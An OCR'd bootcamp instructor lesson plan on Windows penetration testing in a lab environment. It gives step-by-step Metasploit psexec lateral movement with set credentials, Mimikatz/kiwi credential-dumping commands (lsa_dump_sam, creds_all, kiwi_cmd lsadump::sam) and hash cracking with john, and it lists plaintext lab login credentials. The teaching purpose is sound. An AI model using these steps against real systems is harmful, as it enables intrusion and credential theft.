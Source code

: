 ### 17.3 Lesson Plan: Windows Persistence, Lateral Movement, Credential Access, and Review

## Overview
In today's class, students will finish the second penetration testing module by establishing persistence on a Windows
machine, laterally moving to the domain controller, and accessing the database where Active Directory credentials are
stored. The day will finish with a review of the pen testing modules using a service called Kahoot!.

## Class Objectives
By the end of class, students will be able to
- Understand how Windows credentials and Mimikatz work
- Perform lateral movement to other machines in a network
- Explain what DC replication is and how to use the DCSync attack

## Instructor Notes
It's important for students to strictly follow directions and use the given paths, payload names, etc. for activities. This
will prevent confusion when things do not work properly.

## Lab Environment
For this module, you will use the **Pen testing 2** lab environment located in Windows Azure Lab Services. RDP into the
Windows RDP Host machine using the following credentials:

- RDP login credentials for labs provisioned prior to 9/12/23
Username: azadmin
Password: p4ssw0rd*

- RDP login credentials for labs provisioned after 9/12/23
Username: azadmin
Password: p@ssw0rdp@ssw0rd

The credentials to the Hyper-V VMs are as follows:

Virtual Machine Username Password
Kali             root      kali
Metasploitable2 msfadmin cybersecurity
Windows 10 .\Administrator Topsecret!
WINDC01 Administrator Topsecret!

**NOTE:** To prevent the WINDC01 machine from rebooting due to expired license run the following from CMD as
Administrator: slmgr.vbs /rearm

## Slideshow
The lesson slides are available on Google Drive here: 17.3 Slides.
**Note**: Editing access is not available for this document. If you or your students wish to modify the slides, please
create a copy by navigating to **File > Make a copy**.

## Student Guide
Share the student-facing version of this lesson plan after class: 17.3 Student Guide.

## Mimikatz and Kiwi
Introduce Mimikatz and Kiwi by covering the following:
**Mimikatz** is a Windows-purposed credential dumping tool that is able to decrypt almost all stored credentials in Windows. It is outside the scope of our class to go into details on how Mimikatz works.
For our class, we will use the Metasploit version of Mimikatz called kiwi.
Note, this tool is called kiwi in Metasploit because the creator of Mimikatz, Benjamin Delpy, goes by the handle GentleKiwi.
Explain to the class that we will now conduct a demonstration on how to use kiwi.

## Mimikatz Demonstration
First, open a Meterpreter session as SYSTEM on WIN10 by performing the following steps (if a current Meterpreter
SYSTEM session isn't already opened).

1. Load the psexec module: use exploit/windows/smb/psexec

2. Set the following parameters:
   - set RHOSTS 172.22.117.20
   - set SMBUSER tstark
   - set SMBPass Password!
   - set SMBDomain megacorpone
   - set LHOST 172.22.117.100

3. Run the module with run .
Even though we set the credentials to tstark , the PSExec module in Metasploit will always open a session as SYSTEM due to how it executes the payload via service creation.

4. In your Meterpreter session, enable the Mimikatz modules by typing load kiwi
Metasploit and Meterpreter both have the ability to load add-ons such as kiwi . When a new add-on is loaded, the help menu is updated with commands from the new add-on.

5. Next, show all the options available for the kiwi modules with the command ? , as the image shows:

Inform students that since kiwi is an adaptation of Mimikatz, the commands are slightly different.
For example, in Mimikatz, the command sekurlsa::kerberos (pronounced "secure LSA" or "secure local
security authority") will list all Kerberos credentials on the machine. In kiwi , this command is
creds_kerberos .

6. Start by demonstrating the command lsa_dump_sam to dump the contents of SAM. Explain to students that there's a lot of output here, some of which is not important. The most important field is User, Hash NTLM as highlighted in the image below.
This field contains the NTLM hash for that user

7. Another way of obtaining hashes is through the creds_all command with kiwi . This parses the output neatly

Note: If you do not get any results with creds_all , you most likely need to migrate to a x64 SYSTEM process.
Inform students that this command will look for credentials in several areas of Windows and dump them. Note that SAM is not included in creds_all . Most likely, the credentials obtained through creds_all will come
from currently logged in users. We can see from the output that pparker has their password hash dumped,
because they are logged onto the machine.

8. Explain that one additional area that creds_all doesn't cover is cached credentials. Remember that Windows caches credentials when a user logs on. Unfortunately, this command doesn't exist in kiwi . Luckily, we can run actual Mimikatz commands in kiwi via the kiwi_cmd command.

9. . Run the following command to demonstrate kiwi_cmd :
       kiwi_cmd lsadump::sam

Explain to students that this output is the same as lsa_dump_sam . In the upcoming activity, they will have to use kiwi_cmd to find the cached credentials.

## 02. Student Do: Credential Dumping Activity

Explain the following to students:
- In this activity, you will continue to play the role of a pen tester conducting an engagement on MegaCorpOne.You are tasked to use the Metasploit kiwi extension to dump the credentials that are cached on the WIN10
machine.
- Then you will save and crack the hashes using john .
- Send students the following file:
- Activity File: Credential Dumping
- Answer any questions before students start the activity.

   


